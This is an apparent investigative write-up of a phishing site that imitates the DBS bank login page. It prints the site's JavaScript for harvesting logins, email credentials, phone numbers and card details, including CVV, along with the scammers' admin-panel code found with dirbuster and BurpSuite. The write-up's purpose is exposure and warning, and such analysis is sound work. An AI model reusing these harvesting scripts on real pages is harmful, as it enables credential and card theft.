

# Phishing - DBS-login.net

## Warning: Enter the site at your own risk, the site logs your IP

### Do NOT fill in any personal info


## Introduction

Found this site while browsing on Reddit r/Singapore [on this post](https://www.reddit.com/r/singapore/comments/q8fxr0/new_scam_about_be_careful/).

Redditor u/DankWiz [posted a screenshot](Asset01-RedditScreenshot.jpg) of a scam message, transcribed below:<br/>

`There has been a login attempted from a new device. If this was NOT you, please follow the steps here: dbs-login.net`


## Login Page

The link brings you to a site which resembles the actual DBS login page.

For comparison, the fake login page looks like this:

<br/>

On the other hand, the real login page looks like this:

<br/>

It looks very convincing on first glance, and apart from the background image, both look nearly identical.

It is interesting to note that the scam site has a warning on scam calls. How ironic.


### Login Page (Javascript)

[Here is a dump of the scam login page.](Dump01-FakeLogin.txt)

When inspecting the scam login page, we find a snippet of Javascript code embedded within the HTML.

```Javascript
<script>
	const f4 = document.getElementById("form1");
	f4.addEventListener("submit", e => {
		//alert("hello");
		e.preventDefault();

		document.getElementById("loginSub").innerHTML = "Processing...";
		var user = f4['user'].value;
		var pass = f4['pass'].value;
		
		if(user == "" || pass == ""){
			var iserror = document.getElementById("errormsg1");
			iserror.innerHTML ="Oops! *Enter your UserID and Password";
			iserror.style.display ='block';
			iserror.style.color ='red';
			document.getElementById("loginSub").innerHTML = "Login";
			return;
		}
		
	    	$.post("./auth/engine.php", {
			loader: "insertUser",
			user: user,
			pass: pass,
			status: 1
		}, function (data, resp) {
			console.log(data);
			window.location ="./loader.php";
			//checkStat(data);
		})
	})
</script>
```

The login form has the elemend ID `form1`, and it can be deduced this snippet of code POSTs the username and password of the victim to `./auth/engine.php` when the user hits submit. It also redirects the current tab to `./loader.php`.

`checkStat()` is not a function defined. We are unsure why it is even there in the first place. Might be extra code from previous attempts to create a function to check the victim's details.

We are unsure what `./auth/engine.php` does, but we assume it either logs the victim details to a database, or it tries to login to the actual DBS page with the victim's details. The former is more likely due to the value for `loader` being `insertUser`.

Bonus: The coder left what can only be assumed as a "debugging" line, ie `alert("hello")`, inside the code. Probably couldn't be bothered to remove it before release.

It is also interesting to note that the HTML includes some error messages (ripped directly off the actual page) that would never have been shown to the victim.


## Directory Dive

Using dirbuster, we ran a short and quick scan of the directories and files. We did not manage to enumerate all the directories and files since we stopped halfway thru.

Below are the directories and files we managed to enumerate:

<br/>

We have censored 2 pages that may contain personal information. We will call the pages `XYZ.php` and `ABC.php` whilst discussing it.

We will briefly touch on some of the `.php` pages.


## email.php

The `email.php` site loads a form that attempts to phish for the victim's email and password used for their account.

<br/>

### email.php (Javascript)

[Here is a dump of the email and password phishing page.](Dump02-EmailPhish.txt)

When inspecting the scam login page, we find a snippet of Javascript code embedded within the HTML.

```Javascript
<script>
	const f4 = document.getElementById("form2");
	f4.addEventListener("submit", e => {
		//alert("hello");
		e.preventDefault();

		document.getElementById("lgbtn").innerHTML = "Processing...";
		var user = f4['emailuser'].value;
		var pass = f4['passemail'].value;
    
    if(user == "" || pass == ""){
      var iserror = document.getElementById("errormsg1");
			iserror.innerHTML ="Oops! *All fields must be filled";
			iserror.style.display ='block';
			iserror.style.color ='red';
			document.getElementById("lgbtn").innerHTML = "Next";
			return;
    }
		
		$.post("./auth/engine.php", {
			loader: "emailus",
			user: user,
			pass: pass,
      id: ,
			status: 1
		}, function (data, resp) {
      window.location = './loader.php';
			
		})
	})
</script>
```

Similar to the Javascript snippet shown above, the victim's email and password is POSTed to `./auth/engine.php`, though with a different value for `loader`. We are unsure but this may be signing the email up for further scam emails or the like.

## phone.php

<br/>

Similar to `email.php`, this site phishes for the victim's mobile number.

### phone.php (Javascript)

```Javascript
<script>
	const f4 = document.getElementById("form5");
	f4.addEventListener("submit", e => {
		//alert("hello");
		e.preventDefault();

		document.getElementById("lbtn").innerHTML = "Processing...";
		var phone = f4['phone'].value;
		//var pass = f4['passemail'].value;
		//
    
    if(phone == ""){
      //
      var iserror = document.getElementById("errormsg1");
			iserror.innerHTML ="Oops! *Enter your phone number";
			iserror.style.display ='block';
			iserror.style.color ='red';
			document.getElementById("lbtn").innerHTML = "Next";
			return;
    }
		
		$.post("./auth/engine.php", {
			loader: "phone",
			phone: phone,
      id: ,
			status: 1
		}, function (data, resp) {
      window.location = './loader.php';
			
		})
	})
</script>
```

Similar Javascript, just that it gets the element with ID `form5`, and POSTs to the same `./auth/engine.php` with loader with value `phone`.

Most likely logs the victim's phone number and may be called for more scam calls.

## next.php

<br/>

Similar page, to phish for card details, ie Card Name, Card Number, Card Expiry, CVV

### next.php (Javascript)

Snippet of Javascript code:

```Javascript
$.post("./auth/engine.php", {
			loader: "card",
			cname: cname,
			cnumber: cnumber,
      cexp: cexp,
      cvv: cvvs,
      id: ,
			status: 1
		}
```

Similar Javascript, just that it gets element with ID `form7`, POSTs to same `./auth/engine.php`, different `loader` value.

## XYZ.php Pt1

You may be beginning to spot a pattern. There are at least 7 different forms.

This is where one of the censored pages comes in, namely `XYZ.php`

Here is a snippet of Javascript code from `XYZ.php`

```Javascript
<script>
    function requestor(sender){
        sender.innerHTML = "Sending...";
        const form = document.getElementById("rForm");
        var isvalue = form["requesting"].value;
        if(isvalue == ""){
            sender.innerHTML = "request";
            return alert("Please select an item");
        }
        var getNum ="", flag ="", flag2 ="";
        switch(isvalue){
            case "index":
                getNum = 35;
                break;
            case "email":
                getNum = 5;
                break;
            case "otp":
                getNum = 20;
                break;
            case "phone":
                getNum = 25;
                break;
            case "next":
                getNum = 10;
                break;
            case "app":
                getNum = 30;
                break;
            case "otpemail":
                getNum = 15;
                break;
            case "finish":
                getNum = 100;
                break;
        }
        //return alert(getNum);
        //
        $.post("./auth/engine.php", {
            loader: "requestor",
            status: getNum,
            tokid: "",
            flag2: "",
            id:         }, function(resp, status){
            //console.log(resp);
            if(resp == 1){
                //function
                window.location ="./ABC.php";
            }
        })
    }
</script>
```

As can be seen, the pages are namely `index.php`, `email.php`, `otp.php`, `phone.php`, `next.php`, `app.php`, `otpemail.php`, and `finish.php`.

It is interesting to note that `finish.php` just returns a `file not found`.

Normal users are not able to view anything when visiting `XYZ.php`, as it undergoes an authentication process, before redirecting normal users to `ABC.php`, the login page for special users (NOT VICTIMS). However, BurpSuite was able to intercept this request so we are able to see the HTML and Javascript returned.

## ABC.php

This is most likely where the some of the victim's information are stored.

Normal users are redirected, but BurpSuite could capture the HTML and Javascript. More importantly, the HTML contains parts of possible victim information, stored in plain text.

```Javascript
<script>
    function checkUser(){
        $.post("./auth/engine.php", {
            loader: "checkUser"
        }, function(resp, status){
            console.log(resp);
            if(resp == 1){
                //function
                beeper();
                alerta();
            }
        })
    }
    function beeper(){
        var audio = new Audio('./beep.wav');
	    audio.play();
    }
    function alerta(){
        Swal.fire({
        position: 'top-end',
        // icon: 'success',
        title: 'Refresh Now',
        showConfirmButton: false,
        timer: 1500
})
    }
    function updateUser(){
        $.post("./auth/engine.php", {
            loader: "updateUser"
        }, function(resp, status){
           
            
        })
    }
setInterval(() => {
    checkUser();
}, 3000);
updateUser();
</script>
```

This Javascript snippet from the page shows a function to check whether a user is special enough to see the page, or would be redirected to the login page for special users.

The HTML portion is interesting. It contains plain text of parts of victim information, luckily, none of which has entered their credit card informatino yet. We have replaced victim information with information fed in by trolls, and stripped them of identifying information such as id, User Agent, and IP.

```HTML
<!-- Table-->
<div class="mdl-cell mdl-cell--12-col-tablet mdl-cell--4-col-phone ">
<table class="mdl-data-table mdl-js-data-table mdl-data-table--selectable mdl-shadow--2dp projects-table">
<thead>
	<tr>
		<th class="mdl-data-table__cell--non-numeric">Client ID</th>
		<th class="mdl-data-table__cell--non-numeric">Online Status</th>
		<th class="mdl-data-table__cell--non-numeric">Action</th>
		<th class="mdl-data-table__cell--non-numeric">Useragent</th>
		<th class="mdl-data-table__cell--non-numeric">ip</th>
	</tr>
</thead>
<tbody>
	<tr>
		<td class="mdl-data-table__cell--non-numeric">caucibai</td>
		<td class="mdl-data-table__cell--non-numeric">
			<span class="label label--mini color--red">N/A</span>
		</td>
		<td class="mdl-data-table__cell--non-numeric">
			<a href="" class="mdl-button mdl-js-button mdl-button--raised mdl-js-ripple-effect button--colored-red">Delete</a>
			<a href="./XYZ.php?id=XXX" class="mdl-button mdl-js-button mdl-button--raised mdl-js-ripple-effect button--colored-light-blue">View</a>
		</td>
		<td class="mdl-data-table__cell--non-numeric">XXXXX</td>
		<td class="mdl-data-table__cell--non-numeric">XXX.XXX.XXX.XXX</td>
	</tr>
	<tr>
		<td class="mdl-data-table__cell--non-numeric">fuck your mother</td>
		<td class="mdl-data-table__cell--non-numeric">
			<span class="label label--mini color--red">N/A</span>
		</td>
		<td class="mdl-data-table__cell--non-numeric">
			<a href="" class="mdl-button mdl-js-button mdl-button--raised mdl-js-ripple-effect button--colored-red">Delete</a>
			<a href="./XYZ.php?id=XXX" class="mdl-button mdl-js-button mdl-button--raised mdl-js-ripple-effect button--colored-light-blue">View</a>
		</td>
		<td class="mdl-data-table__cell--non-numeric">XXXXX</td>
		<td class="mdl-data-table__cell--non-numeric">XXX.XXX.XXX.XXX</td>
	</tr>
	<tr>
		<td class="mdl-data-table__cell--non-numeric">笨蛋</td>
		<td class="mdl-data-table__cell--non-numeric">
			<span class="label label--mini color--red">N/A</span>
		</td>
		<td class="mdl-data-table__cell--non-numeric">
			<a href="" class="mdl-button mdl-js-button mdl-button--raised mdl-js-ripple-effect button--colored-red">Delete</a>
			<a href="./XYZ.php?id=XXX" class="mdl-button mdl-js-button mdl-button--raised mdl-js-ripple-effect button--colored-light-blue">View</a>
		</td>
		<td class="mdl-data-table__cell--non-numeric">XXXXX</td>
		<td class="mdl-data-table__cell--non-numeric">XXX.XXX.XXX.XXX</td>
	</tr>
```

## XYZ.php Pt 2

You may have realised that `XYZ.php` has appeared once again. This time, there is a GET value requested too.

Entering the relevant value will display a page shown below. Once again, this is sent by a troll, and censored are their User Agent and IP.

<br/>

It appears this is a live platform, where scammers can request for victim details in realtime. Scammers can request for the victim's details by sending them the relevant scam pages mentioned before. Victim information are possibly then logged in the page.

## Afterwords

Though this is a intricate phishing website, it appears the scammers give little care about security. The some of the victim information is leaked to normal users when they request the page.

Luckily, whilst investigating this site, it appears there are very few, countable on one hand, of ClientID which seems legitamate enough to be actual victims. Most of the other dozens have troll ClientID.

This investigation is purely into the directories and files of the scam page, and did not delve into intricacies such as the SSL certificates, which [user u/jedkhoo on Reddit has done an analysis on](https://www.reddit.com/r/singapore/comments/q8fxr0/comment/hgpwzey/).

Another interesting thing to note is the login page for special users (ie scammers), looks like this:

<br/>

Investigators should look into `Greyhat2017-2020` more, seeing as they are "credited" in the site.